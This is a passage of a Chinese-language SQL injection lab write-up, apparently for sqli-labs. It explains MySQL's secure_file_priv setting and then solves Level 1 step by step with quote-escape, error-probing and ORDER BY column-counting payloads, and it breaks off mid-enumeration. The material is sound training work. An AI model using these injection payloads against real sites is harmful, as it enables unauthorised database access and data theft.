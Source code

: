 ### §1.2.7 MySQL的`secure_file_priv`参数

根据[官方文档](en/server-system-variables.html#sysvar_secure_file_priv)，`secure_file_priv`是一个系统级的全局变量，负责控制SQL语句与文件系统交互的权限：

> - `secure_file_priv`
>
>   `secure_file_priv` 的取值有以下情形
>
>   - 如果为空字符串，则该变量无效（可以任意导入导出），风险很高。
>   - 如果为一个目录的路径，则只允许向该目录导入导出。该目录必须预先存在，MySQL不负责创建目录。
>   - 如果为`NULL`，则禁止所有导入导出。

这一变量影响`select ... into outfile/dumpfile`、`load_data()`、`load_file()`等函数。





## §1.3 题解

### §1.3.1 第1关 绕过`''`

我们以这行代码入手：

```php
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

显然，`$id`中若含有单引号便可实现逃逸的效果，比如最经典的`1' or '1'='1`。

了解后，我们假装不知道源代码，开始逐步构建payload，猜测语句结构。

首先试一下正常输入，均正常：

```sql
id=1		-- Login name: Dumb		Password: Dumb
id=2		-- Login name: Angelina	Password: I-kill-you
id=1000		-- Login name: 			Password:
```

尝试单引号，报错；尝试两个单引号，正常。可以猜测语句中肯定包含单引号。同时`LIMIT`告诉我们最多输出一条结果。

```sql
id=1		-- Login name: Dumb		Password: Dumb
id=1'		-- You have an error in your SQL syntax; ... near ''1'' LIMIT 0,1' at line 1
id=1''		-- Login name: Dumb		Password: Dumb
```

知道语句包含单引号后，我们就可以猜测语句大概如下所示：

```sql
SELECT ? FROM ? WHERE ?='$id' LIMIT 0,1 ? ;
```

接下来使用`ORDER BY`爆列数，同时使用`--`注释掉`LIMIT`语句，得到列数为3：

```sql
id=1‘ ORDER BY 1 --  (一定要在--后面加空格,才能识别为有效的注释)
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 1 --   ' LIMIT 0,1 ? ;
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 1;
			-- Login name: Dumb		Password: Dumb
id=1‘ ORDER BY 2 -- 
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 2 --   ' LIMIT 0,1 ? ;
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 2;
			-- Login name: Dumb		Password: Dumb
id=1‘ ORDER BY 3 -- 
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 3 --   ' LIMIT 0,1 ? ;
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 3;
			-- Login name: Dumb		Password: Dumb
id=1‘ ORDER BY 4 -- 
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 4 --   ' LIMIT 0,1 ? ;
```